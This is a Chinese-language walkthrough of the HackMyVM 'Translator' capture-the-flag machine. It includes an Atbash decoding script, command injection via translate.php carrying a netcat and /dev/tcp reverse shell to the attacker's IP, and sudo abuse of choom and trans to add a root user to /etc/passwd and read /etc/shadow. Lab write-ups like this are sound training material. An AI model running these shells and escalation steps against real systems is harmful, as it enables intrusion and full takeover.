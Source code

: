 [HackMyVm - Translator - YouTube](https://www.youtube.com/watch?v=xs6Pw9y_Ayg)
# 主机发现
```C
netdiscover -i eth0 -r 192.168.44.193/24
```
# 服务探测
```C
nmap -sV -A -T4 -p- 192.168.44.134
```
得到只开放了80和22端口

# 目录爆破

```css
gobuster dir -u http://192.168.44.134/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
```

只是个输入框，尝试输入，发现我们输入的字符被替换了然后显示
尝试发现是26个字母倒叙替换
也可以通过https://www.dcode.fr/cipher-identifier 发现是使用atbash编码
但我直接写了个脚本
```Python
import sys

def reverse_alphabet_substitution(text):
    # 定义倒序字母映射字典
    reversed_alphabet = {
        'A': 'Z', 'B': 'Y', 'C': 'X', 'D': 'W', 'E': 'V',
        'F': 'U', 'G': 'T', 'H': 'S', 'I': 'R', 'J': 'Q',
        'K': 'P', 'L': 'O', 'M': 'N', 'N': 'M', 'O': 'L',
        'P': 'K', 'Q': 'J', 'R': 'I', 'S': 'H', 'T': 'G',
        'U': 'F', 'V': 'E', 'W': 'D', 'X': 'C', 'Y': 'B',
        'Z': 'A',
    }

    # 使用映射字典替换文本中的字母
    result = ''.join(reversed_alphabet.get(c.upper(), c) for c in text)

    return result.lower()

args = sys.argv

print(args[1])
# 示例文本
input_text = args[1]

# 应用替换函数
output_text = reverse_alphabet_substitution(input_text)

print(output_text)

```

# 反弹SHELL
sh -i >& /dev/tcp/ 192.168.44.128 / 9001 0>&1不行
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py nc+-e+/bin/bash+192.168.44.128+9001
nc+-e+/bin/bash+192.168.44.128+9001
mx -v /yrm/yzhs 192.168.44.128 9001
```
访问`http://192.168.44.134/translate.php?hmv=rw;mx -v /yrm/yzhs 192.168.44.128 9001

刚监听的shell不太好用，使用下面这条命令打开一个pty伪终端
```C
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm //设置终端类型为常见的xterm环境变量
stty -a//以容易阅读的方式打印当前的所有配置
stty raw -echo;fg//- 通过 `stty raw -echo` 将当前终端设置为原始模式并关闭回显。接着，使用分号 `;` 立即执行下一条命令。最后，`fg` 命令将最近放入后台的作业切换到前台运行，此时由于终端已处于原始模式且回显关闭，该作业可以直接接收用户的无干扰、未经处理的键盘输入。
reset //重新初始化终端
```
# 提权
**配置 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)在运行时而不输入密码。** |此设置在 /etc/sudoers文件中完成，这是使用 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)的默认安全策略；在用户权限指定部分

尝试读取第一个flag读取不到cat /home/ocean/user.txt

```C
cat hvxivg

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py Mb+kzhhdliw+rh+zbfie3w4          
Mb+kzhhdliw+rh+zbfie3w4
ny password is ayurv3d4
```
利用sudo 提权到india 账号
https://gtfobins.github.io/gtfobins/choom/
```C
su ocean //输入密码：ayurv3d4
sudo -l
//发现有个(india) NOPASSWD: /usr/bin/choom   这可以让我免密提权至india用户权限
```

也可以直接ssh：`ssh ocean@192.168.44.134

**choom**      命令是 util-linux 软件包的一部分
不会用这个命令就去找man：[choom(1) - Linux manual page](https://man7.org/linux/man-pages/man1/choom.1.html)
[Ubuntu Manpage: choom - display and adjust OOM-killer score.](https://manpages.ubuntu.com/manpages/focal/en/man1/choom.1.html)

```C
sudo -u india /usr/bin/choom -n 0 /bin/sh
script /dev/null -c bash
```

```C
sudo -l //(root) NOPASSWD: /usr/local/bin/trans
sudo -u root /usr/local/bin/trans//尝试以root权限运行该翻译软件
man /usr/local/bin/trans   //不会就问man,查看帮助命令
```

cat /etc/passwd发现可以显示，添加root用户
```C
cat /etc/passwd
cp /etc/passwd /tmp/passwd.bak
cp /etc/passwd /tmp/file
在kali中生成一个密码
mkpasswd -m sha-512
复制值到file的最后一行中,并按照格式修改成root用户hack:$6$8NJrwgxTZMywbrec$f7JVOZGjIXI0UnN6Ovdv0kzyqiWkhqpIgBOyJOX2AHX4Z4SGuBo8D17cYAolVkVbEtNwQ75ze90uhHbIsA21a0:0:0:root:/root:/bin/bash

sudo -u root /usr/local/bin/trans -i /tmp/file -o /etc/passwd -no-auto
su hack //密码：123
```

```C
root@translator:~# cat root.txt
h87M5364V2343ubvgfy
root@translator:~# cat /home/ocean/user.txt
a6765hftgnhvugy473f
```

方法二：
利用trans 进行提权，命令介绍：https://www.jianshu.com/p/da570df21ae8
这个是google的shell下翻译工具，所以google需要科学上网，我们在后面加上了-x代理，成功读取到shadow文件
```Css
sudo /usr/local/bin/trans -i /etc/shadow -x http://192.168.31.11:7890 -no-auto

sudo /usr/local/bin/trans -i /root/root.txt -x http://192.168.31.11:7890 -no-auto
```

也可以通过如下命令直接提权到root

```css
sudo /usr/local/bin/trans -pager less -x http://192.168.31.11:7890
```
